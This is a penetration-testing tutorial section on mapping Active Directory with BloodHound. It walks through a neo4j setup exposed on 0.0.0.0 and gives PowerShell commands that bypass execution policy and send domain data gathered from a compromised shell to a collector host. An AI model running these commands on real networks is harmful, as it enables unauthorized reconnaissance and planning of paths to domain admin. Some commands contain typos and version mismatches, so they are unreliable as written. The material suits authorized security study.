 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone in the domain needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain without breaking any rules. Any user can query Active Directory for computers, domain controllers, groups and sessions.

Now we can use this brilliant feature to collect a ton of information and create a cool GUI map of the entire AD which can be queried using BloodHound. Do the following:

* [Install neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/) [Community Edition](https://neo4j.com/download/community-edition/) manually from their [website](https://neo4j.com/download/?ref=hro) , not through apt.
* [A guide on installing can be found here](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/)
* Run neo4j from `/opt/neo4j-community-3.3.0/bin/neo4j start`
* Navigate to localhost:7474 in your browser.
* Set a new password for the neo4j account.
* Edit neo4j.conf and set the following parameters to make any host be able to access the database.
  ```
  dbms.connector.http.enabled=true
  dbms.connector.http.listen_address=0.0.0.0:7474
  ```
* Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
* Access neo4j in the browser at `http://0.0.0.0:7474/browser/`
* Launch BloodHound and log in to the neo4j database

The old method:

```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

The new method:

```
scriptimport /path/to/powershell-script.ps1
scrimptcmd Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```

You should now see data being populated into the database and you can play with BloodHound to create really some really cool maps. You can also perform queries to show the shortest path to DA, etc.

